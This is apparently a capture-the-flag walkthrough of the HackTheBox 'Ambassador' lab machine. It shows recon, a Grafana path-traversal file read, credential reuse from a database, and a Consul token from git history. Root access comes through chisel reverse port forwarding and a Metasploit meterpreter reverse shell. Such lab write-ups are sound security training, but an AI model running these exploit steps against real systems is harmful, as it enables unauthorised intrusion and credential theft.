

HackTheBox Ambassador
- Name: Ambassador
- IP: 10.10.11.183
- Defficulty: Medium
- OS: Linux
- Author: DirectRoot
Nmap
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 29dd8ed7171e8e3090873cc651007c75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLYy5+VCwR+2NKWpIRhSVGI1nJQ5YeihevJqIYbfopEW03vZ9SgacRzs4coGfDbcYa+KPePbz2n+2zXytEPfzBzFysLXgTaUlDFcDqEsWP9pJ5UYFNfXqHCOyDRklsetFOBcxkgC8/IcHDJdJQTEr51KLF75ZXaEIcjZ+XuQWsOrU5DJPrAlCmG12OMjsnP4OfI4RpIjELuLCyVSItoin255/99SSM3koBheX0im9/V8IOpEye9Fc2LigyGA+97wwNSZG2G/duS6lE8pYz1unL+Vg2ogGDN85TkkrS3XdfDLI87AyFBGYniG8+SMtLQOd6tCZeymGK2BQe1k9oWoB7/J6NJ0dylAPAVZ1sDAU7KCUPNAex8q6bh0KrO/5zVbpwMB+qEq6SY6crjtfpYnd7+2DLwiYgcSiQxZMnY3ZkJiIf6s5FkJYmcf/oX1xm/TlP9qoxRKYqLtEJvAHEk/mK+na1Esc8yuPItSRaQzpCgyIwiZCdQlTwWBCVFJZqrXc=
| 256 80a4c52e9ab1ecda276439a408973bef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgGRouCNEVCXufz6UDFKYkcd3Lmm6WoGKl840u6TuJ8+SKv77LDiJzsXlqcjdeHXA5O87Us7Npwydhw9NYXXYs=
| 256 f590ba7ded55cb7007f2bbc891931bf6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINujB7zPDP2GyNBT4Dt4hGiheNd9HOUMN/5Spa21Kg0W
80/tcp open http syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ambassador Development Server
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
3000/tcp open ppp? syn-ack
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 302 Found
| Cache-Control: no-cache
| Content-Type: text/html; charset=utf-8
| Expires: -1
| Location: /login
| Pragma: no-cache
| Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
| X-Content-Type-Options: nosniff
| X-Frame-Options: deny
| X-Xss-Protection: 1; mode=block
| Date: Mon, 16 Jan 2023 10:49:16 GMT
| Content-Length: 29
| href="/login">Found</a>.
| GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
| HTTP/1.1 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| Connection: close
| Request
| GetRequest:
| HTTP/1.0 302 Found
| Cache-Control: no-cache
| Content-Type: text/html; charset=utf-8
| Expires: -1
| Location: /login
| Pragma: no-cache
| Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
| X-Content-Type-Options: nosniff
| X-Frame-Options: deny
| X-Xss-Protection: 1; mode=block
| Date: Mon, 16 Jan 2023 10:48:40 GMT
| Content-Length: 29
| href="/login">Found</a>.
| HTTPOptions:
| HTTP/1.0 302 Found
| Cache-Control: no-cache
| Expires: -1
| Location: /login
| Pragma: no-cache
| Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
| X-Content-Type-Options: nosniff
| X-Frame-Options: deny
| X-Xss-Protection: 1; mode=block
| Date: Mon, 16 Jan 2023 10:48:47 GMT
|_ Content-Length: 0
3306/tcp open mysql syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info:
| Protocol: 10
| Version: 8.0.30-0ubuntu0.20.04.2
| Thread ID: 45
| Capabilities flags: 65535
| Some Capabilities: Support41Auth, ConnectWithDatabase, Speaks41ProtocolOld, LongPassword, DontAllowDatabaseTableColumn, SupportsCompression, ODBCClient, IgnoreSigpipes, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, LongColumnFlag, InteractiveClient, SupportsTransactions, FoundRows, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
| Status: Autocommit
| Salt: \x18m\x16K<\x17@[\x11EkhkykK+5!.
|_ Auth Plugin Name: caching_sha2_password
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
# Keyspace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Four ports are open.
- 22/TCP SSH
- OpenSSH 8.2p1
- And its banner says that this is a Ubuntu box
- 80/TCP HTTP
- Apache httpd 2.4.41
- 3000/TCP HTTP
- Apache httpd 2.4.41
- 3306/TCP MySQL
- MySQL 8.0.30
Web Enumeration [Port 80]
There are nothing interesting in this website except for this message.
Use the developer account to SSH, DevOps will give you the password.
According to this we can ssh into the box as an developer via SSH. But to do that, someone called DevOps needs to give us the password. I have no idea what that means…lol
Web Enumeration [Port 3000]
Its a Grafana login form. Grafana is a multi-platform open source analytics and interactive visualization web application written in Go. And we can see the version of the Grafana which is v8.2.0 (d7f71e9eae).
If we look for any exploits for that version, we can find there is a Directory Traversal and Arbitrary File Read Vulnerability.
With that we can read files from the box.
> python3 exploit.py -H http://10.10.11.183:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
Looks like we one have one user on the box name developer. Let’s try to read some other files too.
Using this I downloaded the gafana.db file. I opened it using sqlitebrowser.
Fooothold [Developer]
I found some credentials from the data_sorce table.

With that credentials, we can login to the SQL database of the box.
> mysql -u grafana -p'don********************21!' -h 10.10.11.183
From that we can get the SSH credentials for the user developer.
MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user | pass |
+-----------+------------------------------------------+
| developer | YW5**********************************g== |
+-----------+------------------------------------------+
Decode the base64 encoded password and login to the box as the user developer and then you can capture the user flag.
-bash-5.0$ whoami
developer
-bash-5.0$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
-bash-5.0$ cat user.txt
c20**************************c13
Privesc [Root]
In /opt we can see that there is two directories names consul and my-app. When we go into the my-app directory, we can see a .git direcotory in there. So, now maybe we can view some git commits to see if there is anything usefull in there.
> git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date: Sun Mar 13 23:47:36 2022 +0000
tidy config script
diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
# We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
As they are addressing in here, they are using something called Consul and as you can see they have removed a token from their code. Then I tried to google a little bit about this Consul and I found that the Consul is a free and open-source service networking platform developed by HashiCorp which is written in Go. After a little while I found a exploit for Remote Command Execution via Services API.
We have to forward the 8500 port fromt he box to our local machine. For that I’m goind to use chisel. The reason we forwarding only the port 8500 is that the Consul service is running on that port. We can find it as follows.
developer@ambassador:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:8301 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8302 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8500 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8600 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8300 0.0.0.0:* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::3000 :::* LISTEN -
udp 0 0 127.0.0.1:8600 0.0.0.0:* -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp 0 0 127.0.0.1:8301 0.0.0.0:* -
udp 0 0 127.0.0.1:8302 0.0.0.0:* -
Then make a chisel server on your local machine.
> ./chisel server --reverse --port 8832
And then make a chisel client on the box like this.
> /chisel client -v 10.10.14.16:8832 R:8500:127.0.0.1:8500
Then fire up the Metasploit Framework and exploit this to get a root shell.
msf6 > use exploit/multi/misc/consul_service_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/misc/consul_service_exec) > set lhost 10.10.14.16
lhost => 10.10.14.16
msf6 exploit(multi/misc/consul_service_exec) > set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
msf6 exploit(multi/misc/consul_service_exec) > exploit
[*] Started reverse TCP handler on 10.10.14.16:4444
[*] Creating service 'dhEKmeKYz'
[*] Service 'dhEKmeKYz' successfully created.
[*] Waiting for service 'dhEKmeKYz' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.11.183:49088) at 2023-01-16 19:52:31 +0530
[*] Removing service 'dhEKmeKYz'
[*] Command Stager progress - 100.00% done (763/763 bytes)
meterpreter > shell
Process 27935 created.
Channel 1 created.
whoami
root
cat /root/root.txt
0d9**************************263